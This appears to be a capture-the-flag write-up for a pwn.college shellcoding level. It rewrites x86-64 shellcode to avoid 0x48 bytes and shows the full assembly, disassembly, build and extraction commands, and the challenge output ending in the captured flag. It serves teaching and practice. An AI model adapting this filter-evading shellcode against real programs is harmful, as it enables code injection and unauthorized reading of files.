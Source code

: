 # level4
## Description
Write and execute shellcode to read the flag, but your inputted data is filtered before execution.
## Solution
- The challenge file in `/challenge` is `babyshell-level-4`. Running it and giving it a sample input of `90` (the opcode of `nop`):
```
###
### Welcome to ./babyshell-level-4!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x3072a000!
Reading 0x1000 bytes from stdin.

90
Executing filter...

This challenge requires that your shellcode have no H bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x000000003072a000 | 39 30                                         | cmp dword ptr [rax], esi

Executing shellcode!

Segmentation fault
```
- The shellcode is filtered to not contain the byte `0x48` (ASCII `H`). I learnt that `H` bytes are used to denote instructions that operate on 64-bit registers. If we use 32-bit registers, we can avoid the `H` bytes.
- Here is the same disassembly of our code from [level1](./level1.md) that we saw in [level3](./level3.md):
```

shellcode-elf:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:       48 bb 2f 66 6c 61 67    movabs rbx,0x67616c662f
  401007:       00 00 00 
  40100a:       53                      push   rbx
  40100b:       48 c7 c0 02 00 00 00    mov    rax,0x2
  401012:       48 89 e7                mov    rdi,rsp
  401015:       48 c7 c6 00 00 00 00    mov    rsi,0x0
  40101c:       0f 05                   syscall
  40101e:       48 c7 c7 01 00 00 00    mov    rdi,0x1
  401025:       48 89 c6                mov    rsi,rax
  401028:       48 c7 c2 00 00 00 00    mov    rdx,0x0
  40102f:       49 c7 c2 e8 03 00 00    mov    r10,0x3e8
  401036:       48 c7 c0 28 00 00 00    mov    rax,0x28
  40103d:       0f 05                   syscall
  40103f:       48 c7 c0 3c 00 00 00    mov    rax,0x3c
  401046:       0f 05                   syscall
```
- There are a bunch of `H` bytes in the shellcode. After a bit of trial and error and working instruction-by-instruction, I was able to remove all `H` bytes from the shellcode. Here is the final shellcode:
```
.intel_syntax noprefix
    push word ptr 0x0067        # push "/flag" filename
    push word ptr 0x616c
    push word ptr 0x662f
    mov r8, rsp
    mov rdi, r8                  
    mov eax, 2				    # syscall number of open				
    mov esi, 0				    # NULL out the second argument (meaning, O_RDONLY)
    syscall				        # trigger open("/flag", NULL)
    mov edi, 1				    # first argument to sendfile is the file descriptor to output to (stdout)
    mov esi, eax				# second argument is the file descriptor returned by open
    mov edx, 0				    # third argument is the number of bytes to skip from the input file
    mov r10, 1000				# fourth argument is the number of bytes to transfer to the output file
    mov eax, 40				    # syscall number of sendfile
    syscall				        # trigger sendfile(1, fd, 0, 1000)
    mov eax, 60				    # syscall number of exit
    syscall				        # trigger exit()
```
- I compiled it using the following command: `gcc -nostdlib -static shellcode.s -o shellcode-elf`.
- Running `objdump -d -M intel shellcode-elf`:
```

shellcode-elf:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:       66 6a 67                pushw  0x67
  401003:       66 68 6c 61             pushw  0x616c
  401007:       66 68 2f 66             pushw  0x662f
  40100b:       49 89 e0                mov    r8,rsp
  40100e:       4c 89 c7                mov    rdi,r8
  401011:       b8 02 00 00 00          mov    eax,0x2
  401016:       be 00 00 00 00          mov    esi,0x0
  40101b:       0f 05                   syscall
  40101d:       bf 01 00 00 00          mov    edi,0x1
  401022:       89 c6                   mov    esi,eax
  401024:       ba 00 00 00 00          mov    edx,0x0
  401029:       49 c7 c2 e8 03 00 00    mov    r10,0x3e8
  401030:       b8 28 00 00 00          mov    eax,0x28
  401035:       0f 05                   syscall
  401037:       b8 3c 00 00 00          mov    eax,0x3c
  40103c:       0f 05                   syscall
```
- We see there are no `H` bytes in the shellcode. I made the following changes:
  - Replaced `mov rbx, 0x00000067616c662f; push rbx; mov rdi, rsp` with `push word ptr 0x0067; push word ptr 0x616c; push word ptr 0x662f; mov r8, rsp; mov rdi, r8`. Splitting the "/flag" string into 3 words of 2 bytes each and pushing them onto the stack. I also discovered that by using variables like `r8` or `r9`, I can avoid the `H` bytes.
  - Replaced `mov rax, 0x2; mov rsi, 0x0` with `mov eax, 0x2; mov esi, 0x0`. Using 32-bit registers instead of 64-bit registers. 
  - Used 32-bit registers instead of 64-bit registers in all instructions that had `H` bytes.
- I extracted the shellcode using the following command: `objcopy --dump-section .text=shellcode-raw shellcode-elf`.
- I sent the shellcode to the `stdin` of the challenge using the following command: `cat shellcode-raw /dev/stdin | /challenge/babyshell-level-4`. This gave me the flag:
```
###
### Welcome to /challenge/babyshell-level-4!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x3072a000!
Reading 0x1000 bytes from stdin.

Executing filter...

This challenge requires that your shellcode have no H bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x000000003072a000 | 66 6a 67                                      | push 0x67
0x000000003072a003 | 66 68 6c 61                                   | push 0x616c
0x000000003072a007 | 66 68 2f 66                                   | push 0x662f
0x000000003072a00b | 49 89 e0                                      | mov r8, rsp
0x000000003072a00e | 4c 89 c7                                      | mov rdi, r8
0x000000003072a011 | b8 02 00 00 00                                | mov eax, 2
0x000000003072a016 | be 00 00 00 00                                | mov esi, 0
0x000000003072a01b | 0f 05                                         | syscall 
0x000000003072a01d | bf 01 00 00 00                                | mov edi, 1
0x000000003072a022 | 89 c6                                         | mov esi, eax
0x000000003072a024 | ba 00 00 00 00                                | mov edx, 0
0x000000003072a029 | 49 c7 c2 e8 03 00 00                          | mov r10, 0x3e8
0x000000003072a030 | b8 28 00 00 00                                | mov eax, 0x28
0x000000003072a035 | 0f 05                                         | syscall 
0x000000003072a037 | b8 3c 00 00 00                                | mov eax, 0x3c
0x000000003072a03c | 0f 05                                         | syscall 

Executing shellcode!

pwn.college{gbvSE8AMRMRs4BqP8b6BCb8FoEQ.0FMyIDL5QTO0czW}
```